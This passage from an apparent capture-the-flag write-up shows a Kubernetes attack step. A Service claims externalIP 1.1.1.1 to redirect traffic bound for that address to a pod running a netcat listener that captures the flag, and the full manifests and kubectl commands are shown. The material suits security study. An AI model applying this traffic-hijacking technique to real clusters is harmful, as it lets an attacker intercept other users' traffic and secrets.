 We can now see that we can start listening on port 1337, but we need to create the associated service that will expose our port on ip 1.1.1.1 and port 80 to retrieve the flag. However, don't forget to label our pod as an application, otherwise we won't be able to select it with our service (perhaps there's a way of selecting a pod directly without labeling it, but I haven't found one):

```shell
rayanlecat@potluck2023 /workspace # cat service.yml
apiVersion: v1
kind: Service
metadata:
  name: evil-service
  namespace: flag-reciever
spec:
  selector:
    app: evil-receiver
  ports:
    - protocol: TCP
      port: 80
      targetPort: 1337
  externalIPs:
    - 1.1.1.1

rayanlecat@potluck2023 /workspace # cat pod.yml
apiVersion: v1
kind: Pod
metadata:
  name: evil-pod
  namespace: flag-reciever
  labels:
    app: evil-receiver
spec:
  containers:
  - name: evil-container
    image: busybox
    ports:
      - containerPort: 1337
    args: ["sh", "-c", "while true; do nc -l -v -p 1337; done"]
    resources:
      requests:
        memory: "50M"
        cpu: "50m"
      limits:
        memory: "100M"
        cpu: "200m"
    securityContext:
      allowPrivilegeEscalation: false
      runAsNonRoot: true
      runAsUser: 1000 
      capabilities:
        drop:
        - ALL
      seccompProfile:
        type: RuntimeDefault

rayanlecat@potluck2023 /workspace # kubectl apply -f pod.yml --namespace=flag-reciever
pod/evil-pod created

rayanlecat@potluck2023 /workspace # kubectl apply -f service.yml --namespace=flag-reciever
service/evil-service created
```
